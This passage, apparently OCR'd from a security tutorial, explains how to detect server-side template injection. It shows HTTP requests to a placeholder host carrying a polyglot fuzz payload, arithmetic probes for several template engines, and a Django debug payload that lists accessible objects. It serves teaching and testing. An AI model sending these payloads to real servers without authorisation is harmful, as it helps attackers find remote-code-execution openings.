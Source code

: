 -   Ruby – Liquid

When input validation is not properly handled on the server side, a malicious server-side template injection payload can 
be executed on the server which can result in remote code execution.

## How Does It Work?
---

For the sake of simplicity, imagine you're testing the parameter of the following request:

```
POST /some-endpoint HTTP/1.1
Host: vulnerable-website.com
parameter=value

```
To detect the vulnerability, use the polyglot payload as the value of the parameter which is a sequence of 
special characters such as the following:

```
POST /some-endpoint HTTP/1.1
Host: vulnerable-website.com
parameter=${{<%[%'"}}%\.

```

To identify the template engine, read the error message:

Error message code example

If the error message is not displaying the template engine, we can test via known syntaxes for the popular template engines:

```
=${7*3}
={{7*3}}
=<%= 7*3 %>

```
Check out the documentation of the manual for the template engine (which is Django in this case) and use the following 
payload to read the debug output:

```
POST /some-endpoint HTTP/1.1
Host: vulnerable-website.com
parameter={% debug %}

```

The output will contain a list of objects and properties to which you have access from within this template:
